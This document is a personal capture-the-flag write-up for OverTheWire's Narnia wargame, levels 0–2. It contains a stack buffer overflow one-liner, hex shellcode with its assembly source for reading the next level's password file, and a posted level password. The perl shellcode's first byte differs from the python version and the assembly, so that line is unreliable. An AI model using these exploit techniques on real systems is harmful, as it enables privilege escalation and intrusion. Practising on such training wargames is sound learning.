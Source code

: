 # Narnia Notes
[My notes for Wargame Narnia on overthewire](https://overthewire.org/wargames/narnia/)

pass
1 efeidiedae




## 0 -> 1
A buffer overflow:

The C code:
```C
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```


so val gets called (has 4 bytes)

then buf gets called (reserves 20 bytes)

Our allowed input is 24, so that means 20 will go into buf then the remaining
4 will overflow into val (since val gets called first, it is higher in the
memory stack than buf... and I think since they were called immediately one
after the other, there is nothing in betweeen them) We want our last 4 bytes
to be the hex value '0xdeadbeef'


So this is my solution (lesson learned from pwnable.kr bof):
```bash
(echo `python -c "print(20*'A'+'\xef\xbe\xad\xde')"`; cat) | ./narnia0 
```
here's a more elegant one:
```bash
(echo -e "AAAABBBBCCCCDDDDEEEE\xef\xbe\xad\xde"; cat) | ./narnia0 
```

(Note: the -e allows echo to interpret escape characters)






## 1 -> 2 Shellcode injection

the c code:
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

So it checks if EGG is an env variable and if so, getenv() is called on it


Here's the working solution:

```bash
export  EGG=`perl -e 'print "\x32\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'`
```

or

```bash
export EGG=`python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'`
```

here's the assembly that came from:


`cat mycat.asm`

```
BITS 32
xor eax,eax
cdq
mov byte al,11
push edx
push long 0x7461632f ; tac/
push long 0x6e69622f ; nib/
mov ebx,esp
push edx
push long 0x3261696e ; 2ain
push long 0x72616e2f ; ran/
push long 0x73736170 ; ssap
push long 0x5f61696e ; _ain
push long 0x72616e2f ; ran/
push long 0x6374652f ; cte/
mov ecx,esp
push edx
mov edx,esp
push ecx
push ebx
mov ecx,esp
int 0x80
```

```bash
nasm -f elf mycat.asm && ld -o mycat mycat.o
od2sc mycat
```
```
"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"
```
